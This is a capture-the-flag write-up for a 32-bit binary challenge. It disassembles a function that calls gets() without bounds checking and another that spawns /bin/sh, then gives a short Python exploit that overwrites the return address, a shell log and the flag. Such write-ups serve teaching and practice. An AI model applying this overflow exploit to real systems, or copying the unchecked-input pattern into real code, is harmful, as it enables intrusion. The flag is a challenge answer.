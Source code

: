 ### Solved by superkojiman

The target is a 32-bit ELF binary. We're given a shell on a target with ASLR disabled:

```
superkojiman@ubuntu-512mb-nyc3-01:/problems/simple-rop_0$ ls -l
total 12
-r--r----- 1 hacksports simple-rop_0   21 Mar 19 18:28 flag.txt
-rwxr-sr-x 1 hacksports simple-rop_0 7508 Mar 19 18:28 rop1
```

I found two interesting functions, `get_input()` and `get_flag()`:

```
[0x080483e0]> pdf@sym.get_input
/ (fcn) sym.get_input 53
|           ; var int local_88h    @ ebp-0x88
|           ; CALL XREF from 0x08048556 (sym.get_input)
|           0x080484f4      55             push ebp
|           0x080484f5      89e5           mov ebp, esp
|           0x080484f7      81ec88000000   sub esp, 0x88
|           0x080484fd      83ec0c         sub esp, 0xc
|           0x08048500      8d8578ffffff   lea eax, [ebp - local_88h]
|           0x08048506      50             push eax
|           0x08048507      e874feffff     call sym.imp.gets
|           0x0804850c      83c410         add esp, 0x10
|           0x0804850f      83ec08         sub esp, 8
|           0x08048512      8d8578ffffff   lea eax, [ebp - local_88h]
|           0x08048518      50             push eax
|           0x08048519      68f8850408     push str.You_said:__s_n     ; "You said: %s." @ 0x80485f8
|           0x0804851e      e84dfeffff     call sym.imp.printf
|           0x08048523      83c410         add esp, 0x10
|           0x08048526      90             nop
|           0x08048527      c9             leave
\           0x08048528      c3             ret
[0x080483e0]>
```

`get_input()` uses `gets()`, which does no bounds checking. EIP is overwritten when 140 bytes are read in. `get_flag()` basically gives us a shell:

```
[0x080483e0]> pdf@sym.get_flag
/ (fcn) sym.get_flag 25
|           0x080484db      55             push ebp
|           0x080484dc      89e5           mov ebp, esp
|           0x080484de      83ec08         sub esp, 8
|           0x080484e1      83ec0c         sub esp, 0xc
|           0x080484e4      68f0850408     push str._bin_sh            ; "/bin/sh" @ 0x80485f0
|           0x080484e9      e8b2feffff     call sym.imp.system
|           0x080484ee      83c410         add esp, 0x10
|           0x080484f1      90             nop
|           0x080484f2      c9             leave
\           0x080484f3      c3             ret
```

So all I had to do was return to 0x080484db, and I'd get a shell. Simple ROP requires a simple exploit:

```
#!/usr/bin/env python
from struct import *
buf  = "A"*140
buf += pack("<I", 0x080484db)       # ret to get_flag()
print buf
```

Here we go:

```
superkojiman@ubuntu-512mb-nyc3-01:/problems/simple-rop_0$ (~/sploit.py; cat) | ./rop1
You said: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAۄ
id
uid=1260(superkojiman) gid=1281(simple-rop_0) groups=1281(simple-rop_0),1001(competitors),1261(superkojiman)
cat flag.txt
lasactf{ret_1s_c0ol}
```

Flag is `lasactf{ret_1s_c0ol}`
